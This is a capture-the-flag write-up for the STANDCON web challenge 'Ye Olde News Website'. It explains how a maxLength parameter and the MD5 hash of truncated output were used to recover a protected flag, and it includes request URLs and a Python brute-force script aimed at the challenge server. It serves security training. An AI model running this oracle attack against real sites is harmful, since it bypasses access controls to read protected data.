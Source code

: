 # Web - Ye Olde News Website
- Solved by: @BaeSenseii
- Flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

## Writeup
If you look at the website, you'd probably see something like this (looks like a simple webpage with some old English font):

![](./images/img1.png)

First thing to do is to click on the links, and when we click on '3. secret', we will see something like this:

![](./images/img2.png)

Notice that for the highlighted text, the text seems like it was cut off. Doing a quick inspect on the website resulted in this:

![](./images/img3.png)



It turns out there is a maxLength variable (within the JavaScript code) that cuts down the number of words that can be displayed for the article (which is dictated in the 'article' HTTP parameter):

![](./images/img4.png)

If we also look closer in the JavaScript code, there's also a 'cateogry' HTTP parameter, which serves like a folder. We access the folder by placing the following URL:

```http://ec2-3-1-204-6.ap-southeast-1.compute.amazonaws.com:39753/dir?category=.```

![](./images/img6.png)

From there, we can see that there is a flag.txt article. We attempted to access it by using the following URL:

```http://ec2-3-1-204-6.ap-southeast-1.compute.amazonaws.com:39753/getArticle?maxLength=10000&name=flag.txt```

![](./images/img7.png)

There is some form of access control mechanism that does not allow us to see the flag. HOWEVER, when we adjust the maxLength to a small value, for example 6:

![](./images/img8.png)

We could see a portion of the flag header. After tinkering with the maxLength variable back and forth, we can conclude that the access control mechanism only kicks in IF the word "STANDCON" is part of the output (amounts to maxLength=8):

![](./images/img9.png)

As for the hash value (which is a MD5 hash), it turns out that the hash is generated based on the text value displayed BASED on the maxLength value. If we take note the hash value in the image above, the output is the same as this Linux command with md5hash:

![](./images/img10.png)

So what we do know is this:
- MaxLength variable controls the text output.
- The hash value displayed on the webpage is a MD5 hash value of the text output.

A quick Python solving script was made (you can refer to the solve.py script in this repo):
```python
#!/usr/bin/python3

import hashlib,requests

MAXLENGTH=30

chars = "ABCDEFGHIJKLMNOPQRSTUVWYZabcdefghijklmnopqrstuvwxyz1234567890-=[]\;',./!@#$%^&*()_+{}|:\"<>?"
flag = "STANDCON"

for i in range(8,MAXLENGTH+1):

	# fetch the hash from the website
	url = "http://ec2-3-1-204-6.ap-southeast-1.compute.amazonaws.com:39753/getArticle?maxlength="+str(i)+"&name=flag.txt"
	r = requests.get(url)

	res = (str(r.text).split(' '))[6]
	hash = res[0:len(res)-1]

	temp = flag

	for el in chars:
		temp = temp + el
		h_check = hashlib.md5(temp.encode()).hexdigest()
		if h_check == hash:
			flag = flag + el
			break
		else:
			temp = flag

print(flag)
```

What this script does is pretty simple:
- Adjust the maxLength HTTP parameter before sending it to the website (starting with maxLength=8, and all the way to 30)
- Obtain the hash value from the website.
- Append a character, to the partial flag that we have crafted and generate a hash with the partial flag.
- If the partial flag hash matches the one retrieved from the Internet, increase the maxLength by 1 and add it as part of the partial flag.
- Repeat this process until maxLength hits 30.

You should be able to see the final flag that looks like this:

![](./images/img11.png)